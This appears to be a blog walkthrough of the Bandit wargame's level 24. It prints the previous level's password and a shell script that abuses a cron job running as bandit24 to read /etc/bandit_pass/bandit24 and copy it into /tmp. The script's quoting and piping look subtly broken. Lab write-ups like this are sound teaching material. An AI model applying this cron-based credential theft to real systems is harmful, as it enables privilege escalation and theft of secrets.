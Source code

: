 > Password: `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

## Bandit Level - 24

<img src="/images/blogimages/2019-04-24/bandit24q.PNG">

An interesting level. The cron job executes this file **cronjob_bandit24.sh** that is under the **/usr/bin** directory, that frequently deletes the user created scripts under the folder **/var/spool/bandit24** directory.

Copy the below script and paste it in on the command line of the directory **/var/spool/bandit24**

`echo '#!/bin/bash`
<br>
`myname=$(cat /etc/bandit_pass/bandit24)`
<br>
`mkdir "/tmp/sh423"`
<br>
`touch "/tmp/sh423/$myname"`
<br>
`cp "/etc/bandit_pass/bandit24 /tmp/sh423/"' > sh4.sh | chmod +x sh4.sh`

Code Explained: Since the cron job will make the code run with the privileges of **_bandit24_**, our code makes a copy of the password and pastes it to the **/tmp** directory.
